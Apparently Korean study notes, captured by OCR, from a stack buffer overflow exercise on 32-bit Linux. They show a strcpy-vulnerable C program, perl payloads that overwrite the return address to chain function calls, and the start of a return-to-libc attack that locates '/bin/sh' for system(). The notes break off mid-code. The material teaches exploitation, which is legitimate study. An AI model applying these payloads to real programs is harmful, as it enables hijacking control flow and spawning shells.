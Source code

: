 00인 NULL값이 들어가므로 호출할 수 없음
dummy02: 0x8048414
dummy03: 0x8048428
dummy04: 0x804843c

함수 종료시 
ebp: ad8, esp: a70
leave: ebp: 41414141, esp: adb//esp에 들어있던 주소가 eip로 들어가서 함수 호출
ret
   ebp  /  esp(dummy01주소)
[fad8] / [fadc]
             faec(b cuz of pop)
      esp: fadc
ret후에 다음함수 볼때에는 si로 봐야함. 프롤로그에는 브레이크 걸리지 않음
리턴주소에 연결해서 쓰면 호출하고자하는 함수를 한번에 출력가능하다.
call은 jmp와 달리 다음 실행될 주소를 가지고있게 되어 esp가 이동되게 됨. ./test $(perl -e 'print "a"x104 . "\x14\x84\x04\x08" . "\x28\x84\x04\x08" . "\x3c\x84\x04\x08"')
결과
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa(<▒ call dummy02 call dummy03 call dummy04 Segmentation fault (core dumped)
ebp는 호출되기 전에 실행되고있던 함수의 ebp

프롤로그 push ebp
               mov ebp, esp
에필로그 leave:      mov     esp,     ebp // esp에 ebp넣어줌                pop     ebp            // esp가 가리키는곳의 값을 ebp에 넣어줌.
ret:     pop     eip

(실습)
void dummy01(int a){ printf("call dummy01:%d\n",a); } void dummy02(int a){ printf("call dummy02:%d\n",a); } void dummy03(int a){ printf("call dummy03:%d\n",a); } void dummy04(int a){ printf("call dummy04:%d\n",a); } int main(int argc, char *argv[]){ char buffer[100]={0,}; strcpy(buffer,argv[1]); printf("%s\n",buffer); return 0; }
결과가
call dummy 02: 99999999
call dummy 03: 88888888
call dummy 04: 77777777
되도록.
dummy02: 0x8048418
dummy03: 0x8048430
dummy04: 0x8048448
./test2 $(perl -e 'print "a"x104 . "\x18\x84\x04\x08" . "\x30\x84\x04\x08" . "\x48\x84\x04\x08"')
레지스터 보기: info reg esi ebp..
call dummy02:134513736 call dummy03:-1073743104 call dummy04:1073821800
esp           0xbffffae0       -1073743136  ebp            0xbffffb48       -1073743032  0x400309cb==>10000604713
./test2 $(perl -e 'print "a"x104 . "\x18\x84\x04\x08" . "\x30\x84\x04\x08" . "\xff\xe0\xf5\x05" . "\x38\x56\x4c\x05"')
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa0▒▒▒8VL
call dummy02:99999999 call dummy03:88888888 Segmentation fault (core dumped)
temp.c  시스템이라는 함수를 사용할 수 있도록
int main(){
system("/bin/sh");
return 0;
}
시스템함수는 400~에 들어있음.
x/s system // print system
/bin/sh라는 문자를 찾아서 사용.
/* /bin/sh 찾는 프로그램 */
int main(int argc, char **argv){
long shell;
shell=0x4005e430;
while(memcmp((void*)shell,"/bin/sh",8)) shell++;
printf("\"/bin/sh\" is at 0x%x\n",shell);